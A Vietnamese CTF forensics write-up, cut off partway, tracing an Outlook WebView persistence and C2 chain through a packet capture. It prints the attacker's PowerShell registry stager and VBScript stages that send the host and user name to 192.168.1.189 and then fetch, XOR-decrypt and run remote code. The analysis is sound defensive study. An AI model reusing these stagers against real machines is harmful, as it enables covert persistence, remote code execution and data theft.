







# Challenge Lookout

## 1. Đầu vào challenge

Đầu vào challenge cung cấp file `chall.ad1`. Khi mở bằng FTK image thì thấy ở trong 

```text
Users\BKISC\Desktop\
```

Có file `capture.pcapng`. Export file này ra để điều tra tiếp.



Mở PCAP bằng Wireshark, ban đầu thấy lượng HTTP khá lớn, nên khả năng cao có request/response C2 hoặc payload được truyền qua HTTP.



Sử dụng filter:

```text
http.request
```

thấy được rất nhiều request kiểu:

```text
/report.txt
/plugin/search/
/css/...
```



Ngay ở đầu thấy được request:

```http
GET /report.txt HTTP/1.1
Host: 192.168.1.189
```

Vậy có thể suy luận ban đầu:

- `192.168.1.145` là máy nạn nhân
- `192.168.1.189` là server khả nghi / C2
- `/report.txt` là payload đầu tiên được tải về

Thử đọc request này trước.

---

## 2. Phân tích payload `/report.txt`



Decode đoạn payload thì thu được PowerShell:

```powershell
$tempRegFile = [System.IO.Path]::GetTempFileName() + ".reg"

$regContent = @"
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office\16.0\Outlook\Webview\Inbox]
"url"="http://192.168.1.189:8386/plugin/search/"
"security"="yes"

[HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office\15.0\Outlook\Webview\Inbox]
"url"="http://192.168.1.189:8386/plugin/search/"
"security"="yes"

[HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office\14.0\Outlook\Webview\Inbox]
"url"="http://192.168.1.189:8386/plugin/search/"
"security"="yes"

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Ext\Stats\{261B8CA9-3BAF-4BD0-B0C2-BF04286785C6}\iexplore]
"Flags"=dword:00000004

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\2]
"140C"=dword:00000000
"1200"=dword:00000000
"1201"=dword:00000003
"@

Set-Content -Path $tempRegFile -Value $regContent -Encoding Unicode
& reg.exe import "`"$tempRegFile`""
Remove-Item -Path $tempRegFile -Force
```

### Phân tích

Payload tạo một file `.reg` tạm:

```powershell
$tempRegFile = [System.IO.Path]::GetTempFileName() + ".reg"
```

Sau đó ghi nội dung registry vào biến `$regContent`, import bằng:

```powershell
& reg.exe import "`"$tempRegFile`""
```

rồi xóa file tạm:

```powershell
Remove-Item -Path $tempRegFile -Force
```

Payload ghi key này:

```reg
[HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office\16.0\Outlook\Webview\Inbox]
"url"="http://192.168.1.189:8386/plugin/search/"
"security"="yes"
```

Và lặp lại cho các phiên bản Office:

```text
Office\14.0
Office\15.0
Office\16.0
```

Trong đó:

- `Office 14.0` = Office 2010
- `Office 15.0` = Office 2013
- `Office 16.0` = Office 2016/2019/365

Attacker ghi cả 3 version để payload hoạt động dù máy nạn nhân dùng phiên bản Outlook nào. Khi nạn nhân mở Outlook Inbox, Outlook WebView sẽ tải URL:

```text
http://192.168.1.189:8386/plugin/search/
```

Payload còn ghi:

```reg
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\2]
"140C"=dword:00000000
"1200"=dword:00000000
"1201"=dword:00000003
```

`Zones\2` là vùng **Trusted Sites** của Internet Explorer / MSHTML engine. Outlook WebView cũ dựa vào IE/MSHTML, nên việc chỉnh các zone setting này nhằm làm cho nội dung tải trong Outlook dễ chạy script/ActiveX hơn.

Payload còn có:

```reg
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Ext\Stats\{261B8CA9-3BAF-4BD0-B0C2-BF04286785C6}\iexplore]
"Flags"=dword:00000004
```

Đây là registry liên quan đến extension / ActiveX behavior trong môi trường IE. Payload đang chuẩn bị môi trường IE/MSHTML để nội dung WebView của Outlook chạy được theo ý attacker.

---

## 3. Lọc endpoint `/plugin/search/`

Giờ sử dụng filter:

```text
http.request.uri contains "/plugin/search/"
```

để lọc các request Outlook WebView gọi về C2 endpoint `/plugin/search/`, từ đó đọc HTML/VBScript stage tiếp theo mà server attacker trả về.



Sử dụng `tshark` để lấy toàn bộ TCP stream có request tới endpoint `/plugin/search/`:

```bash
for s in $(tshark -r capture.pcapng -Y 'http.request.uri contains "/plugin/search/"' -T fields -e tcp.stream | sort -n -u); do
    echo "================ tcp.stream $s ================"
    tshark -r capture.pcapng -q -z follow,tcp,ascii,$s
done > payload.txt
```

Trong `tcp.stream 157`, server trả về HTML có VBScript:

```html
================ tcp.stream 157 ================

===================================================================
Follow: tcp,ascii
Filter: tcp.stream eq 157
Node 0: 192.168.1.145:50025
Node 1: 192.168.1.189:8386
267
GET /plugin/search/ HTTP/1.1
Accept: */*
Accept-Language: en-GB
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Microsoft Outlook 16.0.18925)
Host: 192.168.1.189:8386
Connection: Keep-Alive


	1460
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:14:30 GMT
Etag: "8646f5e2ef9147e9bf57b0632d206f94af957e55"
Content-Length: 3010

<html>
<head>
<meta http-equiv="Content-Language" content="en-us">
<meta http-equiv="Content-Type" content="text/html; charset=windows-1252">
<meta http-equiv="refresh" content="10">
<meta http-equiv="Cache-Control" content=NO-CACHE, no-store, must-revalidate, max-age=0" />
<meta http-equiv="Pragma" content="no-cache" />
<meta http-equiv="EXPIRES" CONTENT="0">
<title>Outlook</title>
<style>
body {
overflow: hidden;
border: 0px;
padding: 0px;
margin: 0px;
}
</style>
<script id=clientEventHandlersVBS language=vbscript>
<!--
On Error Resume Next
Function GetEnvironment()
On Error Resume Next
Set sh = outlookapp.CreateObject("Wscript.Shell")
compname = sh.ExpandEnvironmentStrings("%COMPUTERNAME%")
usern = sh.ExpandEnvironmentStrings("%USERNAME%")
r = BaseDecode(compname & "|" & usern,1)
GetEnvironment = r
End Function
Function SetRegKey(subkey,value,valuetype)
On Error Resume Next
Set oL = outlookapp.CreateObject("Wscript.Shell")
ol.RegWrite subkey, value, valuetype
End Function
Function BaseDecode(value, LE)
On Error Resume Next
With outlookapp.CreateObject("Msxml2.DOMDocument").CreateElement("aux")
.DataType = "bin.base64"
if LE then
.NodeTypedValue = StrToBytes(value, "utf-16le", 2)
else
.NodeTypedValue = StrToBytes(value, "utf-8", 3)
end if
Base
	1460
Decode = .Text
End With
End Function
Function requestpage(uri, rR)
On Error Resume Next
vi = Left(outlookapp.version,4)
d = rR
set oP = outlookapp.CreateObject("MSXML2.ServerXMLHTTP")
oP.open "POST", uri,false
oP.setRequestHeader "Content-Type", "application/x-www-form-urlencoded"
oP.setRequestHeader "Content-Length", Len(d)
oP.setRequestHeader "User-Agent", "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook " & vi
oP.setOption 2, 13056
oP.send Replace(d, vbLf, "")
requestpage = oP.responseText
End Function
Function StrToBytes(strn, cset, pos)
On Error Resume Next
With outlookapp.CreateObject("ADODB.Stream")
.Type = 2
.Charset = cset
.Open
.WriteText strn
.Position = 0
.Type = 1
.Position = pos
StrToBytes = .Read
.Close
End With
End function
O = ""
uriloc = "http://192.168.1.189:8386/plugin/search/"
Set outlookapp = window.external.OutlookApplication
Sub window_onload()
O = GetEnvironment()
rul = requestpage(uriloc, chr(34) & O & chr(34))
if not rul = "" Then
Set box = outlookapp.GetNameSpace("MAPI")
Set fold = box.GetDefaultFolder(9)
val1 = SetRegKey("HKCU\" & "Software\Microsoft\Office\"  & Left(outlookapp.version,4) & "\Outlook\UserInfo" & "\" & "KEY", Split(rul,"||")(0), "REG_SZ")
val2 = SetRegKey("HKCU\Software\Microsoft\Office\" & Left(outlookapp.version,4) & "\Outlook\Webview\Inbox\URL", Split(rul,"||")(1), "REG_SZ")
val3 = SetRegKey("HKCU\Software\Microsoft\Internet Explorer\Styl
	285
es\MaxScriptStatements", &Hffffffff, "REG_DWORD")
Set outlookapp.ActiveExplorer.CurrentFolder = fold
End if
End Sub
-->
</script>
</head>
<body>
<object classid="CLSID:0006F063-0000-0000-C000-000000000046" id="SpeculaViewID" data="" width="100%" height="100%"></object>
</body>
</html>
326
GET /plugin/search/ HTTP/1.1
Accept: */*
Accept-Language: en-GB
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Microsoft Outlook 16.0.18925)
Host: 192.168.1.189:8386
If-None-Match: "8646f5e2ef9147e9bf57b0632d206f94af957e55"
Connection: Keep-Alive


	143
HTTP/1.1 304 Not Modified
Server: Microsoft-IIS/8.5
Date: Wed, 01 Oct 2025 01:14:41 GMT
Etag: "8646f5e2ef9147e9bf57b0632d206f94af957e55"


326
GET /plugin/search/ HTTP/1.1
Accept: */*
Accept-Language: en-GB
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Microsoft Outlook 16.0.18925)
Host: 192.168.1.189:8386
If-None-Match: "8646f5e2ef9147e9bf57b0632d206f94af957e55"
Connection: Keep-Alive


	143
HTTP/1.1 304 Not Modified
Server: Microsoft-IIS/8.5
Date: Wed, 01 Oct 2025 01:14:51 GMT
Etag: "8646f5e2ef9147e9bf57b0632d206f94af957e55"


326
GET /plugin/search/ HTTP/1.1
Accept: */*
Accept-Language: en-GB
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Microsoft Outlook 16.0.18925)
Host: 192.168.1.189:8386
If-None-Match: "8646f5e2ef9147e9bf57b0632d206f94af957e55"
Connection: Keep-Alive


	143
HTTP/1.1 304 Not Modified
Server: Microsoft-IIS/8.5
Date: Wed, 01 Oct 2025 01:15:01 GMT
Etag: "8646f5e2ef9147e9bf57b0632d206f94af957e55"


326
GET /plugin/search/ HTTP/1.1
Accept: */*
Accept-Language: en-GB
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Microsoft Outlook 16.0.18925)
Host: 192.168.1.189:8386
If-None-Match: "8646f5e2ef9147e9bf57b0632d206f94af957e55"
Connection: Keep-Alive


	143
HTTP/1.1 304 Not Modified
Server: Microsoft-IIS/8.5
Date: Wed, 01 Oct 2025 01:15:11 GMT
Etag: "8646f5e2ef9147e9bf57b0632d206f94af957e55"


===================================================================
================ tcp.stream 159 ================

===================================================================
Follow: tcp,ascii
Filter: tcp.stream eq 159
Node 0: 192.168.1.145:50027
Node 1: 192.168.1.189:8386
307
POST /plugin/search/ HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Content-Length: 42
Host: 192.168.1.189:8386


42
"QwBPAE0ATQBBAE4ARABPAHwAQgBLAEkAUwBDAA=="
	142
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:14:31 GMT
Content-Length: 0


307
POST /plugin/search/ HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Content-Length: 42
Host: 192.168.1.189:8386


42
"QwBPAE0ATQBBAE4ARABPAHwAQgBLAEkAUwBDAA=="
	142
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:14:41 GMT
Content-Length: 0


307
POST /plugin/search/ HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Content-Length: 42
Host: 192.168.1.189:8386


42
"QwBPAE0ATQBBAE4ARABPAHwAQgBLAEkAUwBDAA=="
	142
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:14:51 GMT
Content-Length: 0


307
POST /plugin/search/ HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Content-Length: 42
Host: 192.168.1.189:8386


42
"QwBPAE0ATQBBAE4ARABPAHwAQgBLAEkAUwBDAA=="
	142
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:15:01 GMT
Content-Length: 0


307
POST /plugin/search/ HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Content-Length: 42
Host: 192.168.1.189:8386


42
"QwBPAE0ATQBBAE4ARABPAHwAQgBLAEkAUwBDAA=="
	211
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:15:11 GMT
Content-Length: 68

o4WlfbKbx1xik1TgTQGeOQ||http://192.168.1.189:8386/css/dx7u7QYCSlbTbQ

```

Trong `tcp.stream 159`, máy nạn nhân POST về server:

```http
POST /plugin/search/ HTTP/1.1
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386

"QwBPAE0ATQBBAE4ARABPAHwAQgBLAEkAUwBDAA=="
```

Các POST đầu tiên trả `Content-Length: 0`, nhưng POST cuối trả:

```text
o4WlfbKbx1xik1TgTQGeOQ||http://192.168.1.189:8386/css/dx7u7QYCSlbTbQ
```

### Phân tích

Trong script có dòng:

```vbscript
Set outlookapp = window.external.OutlookApplication
```

và object:

```html
<object classid="CLSID:0006F063-0000-0000-C000-000000000046" id="SpeculaViewID">
```

Quan trọng hơn, khi script tự POST về server, User-Agent bị sửa thành:

```text
User-Agent: Mozilla/5.0 ... Trident/7.0; Specula; Microsoft Outlook 16.0
```

Script đang chạy bên trong Outlook, lấy được object `OutlookApplication`, rồi dùng Outlook/MSXML để gửi POST về C2.

Đoạn này lấy environment:

```vbscript
compname = sh.ExpandEnvironmentStrings("%COMPUTERNAME%")
usern = sh.ExpandEnvironmentStrings("%USERNAME%")
r = BaseDecode(compname & "|" & usern,1)
```

Sau đó gửi về:

```vbscript
rul = requestpage(uriloc, chr(34) & O & chr(34))
```

Trong POST body ta thấy:

```text
"QwBPAE0ATQBBAE4ARABPAHwAQgBLAEkAUwBDAA=="
```

Chuỗi này là Base64 UTF-16LE. Decode ra là:

```text
COMMANDO|BKISC
```

Vậy máy nạn nhân có hostname `COMMANDO`, user là `BKISC`. C2 dùng thông tin này để fingerprint nạn nhân trước khi trả cấu hình tiếp theo.

Script xử lý response như sau:

```vbscript
SetRegKey "...Outlook\UserInfo\KEY", Split(rul,"||")(0), "REG_SZ"
SetRegKey "...Outlook\Webview\Inbox\URL", Split(rul,"||")(1), "REG_SZ"
SetRegKey "HKCU\Software\Microsoft\Internet Explorer\Styles\MaxScriptStatements", &Hffffffff, "REG_DWORD"
```

Nghĩa là response được tách bởi `||`:

```text
Split(rul,"||")(0) = o4WlfbKbx1xik1TgTQGeOQ
Split(rul,"||")(1) = http://192.168.1.189:8386/css/dx7u7QYCSlbTbQ
```

Kết luận C2 cấp:

```text
XOR key = o4WlfbKbx1xik1TgTQGeOQ
C2 URL  = http://192.168.1.189:8386/css/dx7u7QYCSlbTbQ
```

---

## 4. Lọc endpoint C2 mới `/css/dx7u7QYCSlbTbQ`

Tiếp tục dùng `tshark` để lọc toàn bộ traffic đến C2 endpoint mới `/css/dx7u7QYCSlbTbQ`:

```bash
for s in $(tshark -r capture.pcapng -Y 'http.request.uri contains "/css/dx7u7QYCSlbTbQ"' -T fields -e tcp.stream | sort -n -u); do
    echo "================ tcp.stream $s ================"
    tshark -r capture.pcapng -q -z follow,tcp,ascii,$s
done > payload2.txt
```

```vbs
================ tcp.stream 188 ================

===================================================================
Follow: tcp,ascii
Filter: tcp.stream eq 188
Node 0: 192.168.1.145:50055
Node 1: 192.168.1.189:8386
271
GET /css/dx7u7QYCSlbTbQ HTTP/1.1
Accept: */*
Accept-Language: en-GB
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Microsoft Outlook 16.0.18925)
Host: 192.168.1.189:8386
Connection: Keep-Alive


	1263
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:16:59 GMT
Cache-Control: no-store
Etag: "4eb12ed4322e70e94103cf53094057a05440f23c"
Content-Length: 1043

<html>
<head>
<meta http-equiv="Content-Language" content="en-us">
<meta http-equiv="Content-Type" content="text/html; charset=windows-1252">
<title>Outlook</title>
<style>
body {
overflow: hidden;
border: 0px;
padding: 0px;
margin: 0px;
}
</style>
<script id=clientEventHandlersVBS language=vbscript>
On Error Resume Next

Sub DownloadCacheLogic ()
..Set server_manager = window.external.OutlookApplication.CreateObject("MSXML2.ServerXMLHTTP")
..vr = Left(window.external.OutlookApplication.version,4)
..server_manager.open "GET", "http://192.168.1.189:8386/css/dx7u7QYCSlbTbQ/FxBdmVg", False
..server_manager.setRequestHeader "User-Agent", "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook " & vr
..server_manager.send
..rp = server_manager.ResponseText
        ExecuteGlobal rp
End Sub

Sub window_onload()
DownloadCacheLogic
End Sub
</script>
</head>
<BODY>
<OBJECT CLASSID="CLSID:0006F063-0000-0000-C000-000000000046" id="SpeculaViewID" width=100% height=100%>
</OBJECT>
</BODY>
</html>

===================================================================
================ tcp.stream 189 ================

===================================================================
Follow: tcp,ascii
Filter: tcp.stream eq 189
Node 0: 192.168.1.145:50056
Node 1: 192.168.1.189:8386
249
GET /css/dx7u7QYCSlbTbQ/FxBdmVg HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	1460
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:16:59 GMT
Etag: "2fddaab4180bd626e193b3e86bfd4b17bab5c108"
Content-Length: 3610

Set outlookapp = window.external.OutlookApplication
Dim ay
Dim sync


Function requestpage(uri, rR)
.On Error Resume Next
.vi = Left(outlookapp.version,4)
.d = rR
.set oP = outlookapp.CreateObject("MSXML2.ServerXMLHTTP")
.oP.open "POST", uri,false
.oP.setRequestHeader "Content-Type", "application/x-www-form-urlencoded"
.oP.setRequestHeader "Content-Length", Len(d)
.oP.setRequestHeader "User-Agent", "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook " & vi
.oP.setOption 2, 13056
.oP.send Replace(d, vbLf, "")
.requestpage = oP.responseText
End Function

Sub downloadcode (uri)
        On Error Resume Next
..Set serverapp = outlookapp.CreateObject("MSXML2.ServerXMLHTTP")
..vr = Left(outlookapp.version,4)
..serverapp.open "GET", uri, False
..serverapp.setRequestHeader "User-Agent", "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook " & vr
..serverapp.send
..response = serverapp.ResponseText
        f = Left(response, 1)
..j = Int(Mid(response, 2, 4)) * 1000
..If Err.Number <> 0 Then
..    Exit Sub
..End If
..sync = j
..If f = 2 Then
..    Exit Sub
..ElseIf f = 1 Then
            ExecuteGlobal Crypt(Mid(response, 6), ay, False)
..Else
            Execut
	1460
eGlobal Mid(response, 6)
..End If
End Sub

Function readreg(path,value)
.On Error Resume Next
.Va = ""
.Set oL = outlookapp.CreateObject("WbemScripting.SWbemLocator")
   Set lr = oL.ConnectServer(".", "root\cimv2").Get("StdRegProv")
.lr.GetStringValue 2147483649, path, value, Va
.readreg = Va
End Function

Function Crypt(input, Key, Mode)
    For i = 1 To Len(input)
        Position = Position + 1
        If Position > Len(Key) Then Position = 1
        keyx = Asc(Mid(Key, Position, 1))
        If Mode Then
            orgx = Asc(Mid(input, i, 1))
            cptx = orgx Xor keyx
            cptString = Hex(cptx)
                        If Len(cptString) < 2 Then cptString = "0" & cptString
                        z = z & cptString
        Else
            If i > Len(input) \ 2 Then Exit For
            cptx = CByte("&H" & Mid(input, i * 2 - 1, 2))
            orgx = cptx Xor keyx
            z = z & Chr(orgx)
        End If
    Next
    Crypt = z
End Function

Function crypthelper(input, key, mode)
.l = Len(input)
.Dim j
.If mode Then
..ReDim j(l * 2)
.Else
..ReDim j(l / 2)
.End If
    For i = 1 To l
        Position = Position + 1
        If Position > Len(key) Then Position = 1
        kZ = Asc(Mid(key, Position, 1))
        If mode Then
            orZ = Asc(Mid(input, i, 1))
            cpt = orZ Xor kZ
            cptString = Hex(cpt)
...If Len(cptString) < 2 Then cptString = "0" & cptString
...j(i) = cptString
        Else
      
	885
      If i > Len(input) \ 2 Then Exit For
            cpt = CByte("&H" & Mid(input, i * 2 - 1, 2))
            orZ = cpt Xor kZ
            j(i) = Chr(orZ)
        End If
    Next
    crypthelper = Join(j, "")
End Function

Function update_subscription()
    aluceps_coi = Int((2200 - 201 + 1) * Rnd + 0)
    if aluceps_coi = 1194 then
        Set ws = window.external.OutlookApplication.CreateObject("Wscript.shell")
        c = "cmd /c start https://github.com/trustedsec/specula/wiki/Why-am-I-seeing-this%3F"
.    ws.Run c, 0, true
    end if

    downloadcode "http://192.168.1.189:8386/css/dx7u7QYCSlbTbQ/rUe38nIs"
    window.setTimeout "update_subscription", sync, "VBScript"
End Function


oldstr = ""
sync = 10 * 1000
ay = readreg("Software\Microsoft\Office\"  & Left(outlookapp.version,4) & "\Outlook\UserInfo", "KEY")
window.setTimeout "update_subscription", sync, "VBScript"
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	1460
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:17:12 GMT
Cache-Control: no-store
Etag: "d3ccd5a3a1318c7c4ac7131da1858e7884ed127e"
Content-Length: 5863

10010657222020516220d16111c00196e380e2725221767370058330914122a16101d580d0e41200f787135002c241d47320003142e0e0b1d580f025d31132d2122496f3706583202070f2e4e585f170d02433104203e350c2a22431424051c072d0d0a5c191d47113a0832382b003c78653d1802460739101743581b0e42210a3171290037256514774c46312e1658570b495611230e3a35281261341740321e0803274c37440c05045e3f2624212b0c2c301b5d38024821390719451d26095b3104207965362c230644230508056524115d1d3a12422002391e250f2a321b167e666f01240c0c54161d1811694776734d456f714f3e5e050042380b02541e06195c3513746c674724334d140304030c416b714211130e433b123a3567586f605f0663666f0727111d581e4918582e02323e35082e254f09774e0b0069422c591d0761385d143d2b221720240150775146537b5640044f5f6138310b27342e036f22064e320a091026030c1145494956364574052f00215b663d24051c07390d0d5f1c4956116557636270517e695d005d65030e38071157581a024b31013b232a043b715214751804406b36105416636238270e2e34350a3a3f0b146a4c5752725b4d00495f59066350625b4e0021354f5d31666c426b4258581e490d427a213b3d23003d14175d2418154a2d0d14551d1b1b50200f7d71130d2a3f653d5e3f03166b0d1a5b3e0607553115746c67033c7f2851232a090e2f070a191e06075531152430330d665b663d3e0a460c2416585f170f025d311474052f00215b663d5e0500422f0708451049570c7415313232173c34035121090a116b361054166362385d6e073433452c3e037
	1460
